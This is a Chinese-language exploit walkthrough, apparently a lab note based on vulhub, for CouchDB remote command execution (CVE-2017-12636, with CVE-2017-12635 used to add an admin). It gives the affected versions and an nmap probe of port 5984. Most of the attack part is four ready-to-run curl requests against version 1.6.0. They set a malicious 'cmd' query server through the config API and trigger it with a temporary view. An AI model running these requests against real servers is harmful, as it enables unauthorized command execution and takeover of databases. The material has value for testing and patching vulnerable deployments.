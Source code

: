 可以看到，CouchDB在query\_server中引入了外部的二进制程序来执行命令，如果我们可以更改这个配置，那么就可以利用数据库来执行命令了

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置query\_server，这个配置项在设计、执行view的时候将被运行。  
[http://bobao.360.cn/learning/detail/4716.html](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)  
[https://justi.cz/security/2017/11/14/couchdb-rce-npm.html](https://bbs.ichunqiu.com/thread-39749-1-1.html?from=beef)

`影响版本：小于 1.7.0 以及 小于 2.1.1`

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用CVE-2017-12635先增加一个管理员用户。

## 1.扫描探测

```
nmap -p 5984 –script “couchdb-stats.nse” 127.0.0.1
```

## 2.两个版本的利用方式

\(1\) 1.6.0 下的说明

依次执行如下请求即可触发任意命令执行,其中,vulhub:vulhub为管理员账号密码。

```
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@your-ip:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@your-ip:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'

```

![](/assets/wsq9.png)
